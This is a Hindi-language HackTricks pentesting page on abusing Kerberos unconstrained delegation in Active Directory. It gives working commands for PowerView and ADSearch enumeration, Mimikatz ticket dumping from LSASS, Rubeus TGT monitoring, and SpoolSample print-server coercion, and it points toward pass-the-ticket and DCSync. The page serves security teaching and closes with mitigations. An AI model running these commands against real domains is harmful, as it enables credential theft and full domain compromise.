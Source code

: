 # Unconstrained Delegation

{{#include ../../banners/hacktricks-training.md}}

## Unconstrained delegation

यह एक विशेषता है जिसे एक Domain Administrator किसी भी **Computer** पर सेट कर सकता है जो डोमेन के अंदर है। फिर, जब भी कोई **उपयोगकर्ता उस Computer पर लॉगिन करता है**, उस उपयोगकर्ता का **TGT की एक प्रति** **DC द्वारा प्रदान किए गए TGS के अंदर भेजी जाएगी** **और LSASS में मेमोरी में सहेजी जाएगी**। इसलिए, यदि आपके पास मशीन पर Administrator विशेषाधिकार हैं, तो आप **टिकटों को डंप कर सकते हैं और किसी भी मशीन पर उपयोगकर्ताओं का अनुकरण कर सकते हैं**।

तो यदि एक डोमेन एडमिन "Unconstrained Delegation" विशेषता सक्रिय करके किसी Computer पर लॉगिन करता है, और आपके पास उस मशीन पर स्थानीय एडमिन विशेषाधिकार हैं, तो आप टिकट को डंप कर सकते हैं और डोमेन एडमिन का अनुकरण कहीं भी कर सकते हैं (डोमेन प्रिवेस्क)।

आप इस विशेषता के साथ **Computer ऑब्जेक्ट्स को खोज सकते हैं** यह जांचकर कि [userAccountControl](<https://msdn.microsoft.com/en-us/library/ms680832(v=vs.85).aspx>) विशेषता में [ADS_UF_TRUSTED_FOR_DELEGATION](<https://msdn.microsoft.com/en-us/library/aa772300(v=vs.85).aspx>) शामिल है या नहीं। आप इसे ‘(userAccountControl:1.2.840.113556.1.4.803:=524288)’ LDAP फ़िल्टर के साथ कर सकते हैं, जो powerview करता है:

<pre class="language-bash"><code class="lang-bash"># List unconstrained computers
## Powerview
Get-NetComputer -Unconstrained #DCs हमेशा दिखाई देते हैं लेकिन प्रिवेस्क के लिए उपयोगी नहीं होते
<strong>## ADSearch
</strong>ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem
<strong># Mimikatz के साथ टिकट निर्यात करें
</strong>privilege::debug
sekurlsa::tickets /export #अनुशंसित तरीका
kerberos::list /export #एक और तरीका

# लॉगिन की निगरानी करें और नए टिकट निर्यात करें
.\Rubeus.exe monitor /targetuser:<username> /interval:10 #हर 10 सेकंड में नए TGT के लिए जांचें</code></pre>

**Mimikatz** या **Rubeus** के साथ Administrator (या पीड़ित उपयोगकर्ता) का टिकट मेमोरी में लोड करें **[**Pass the Ticket**](pass-the-ticket.md)** के लिए।\
अधिक जानकारी: [https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/)\
[**Unconstrained delegation के बारे में अधिक जानकारी ired.team पर।**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation)

### **Force Authentication**

यदि एक हमलावर **"Unconstrained Delegation" के लिए अनुमत एक कंप्यूटर को समझौता करने में सक्षम है**, तो वह **Print server** को **स्वचालित रूप से लॉगिन** करने के लिए **धोखा दे सकता है** जिससे **सर्वर की मेमोरी में एक TGT सहेजी जाएगी**।\
फिर, हमलावर **उपयोगकर्ता Print server कंप्यूटर खाते का अनुकरण करने के लिए Pass the Ticket हमला कर सकता है**।

किसी भी मशीन के खिलाफ प्रिंट सर्वर को लॉगिन कराने के लिए आप [**SpoolSample**](https://github.com/leechristensen/SpoolSample) का उपयोग कर सकते हैं:
```bash
.\SpoolSample.exe <printmachine> <unconstrinedmachine>
```
यदि TGT एक डोमेन कंट्रोलर से है, तो आप एक [**DCSync attack**](acl-persistence-abuse/index.html#dcsync) कर सकते हैं और DC से सभी हैश प्राप्त कर सकते हैं।\
[**इस हमले के बारे में अधिक जानकारी ired.team पर।**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-dc-print-server-and-kerberos-delegation)

**यहाँ प्रमाणीकरण को मजबूर करने के अन्य तरीके हैं:**

{{#ref}}
printers-spooler-service-abuse.md
{{#endref}}

### शमन

- DA/एडमिन लॉगिन को विशिष्ट सेवाओं तक सीमित करें
- विशेषाधिकार प्राप्त खातों के लिए "खाता संवेदनशील है और इसे प्रतिनिधित्व नहीं किया जा सकता" सेट करें।

{{#include ../../banners/hacktricks-training.md}}
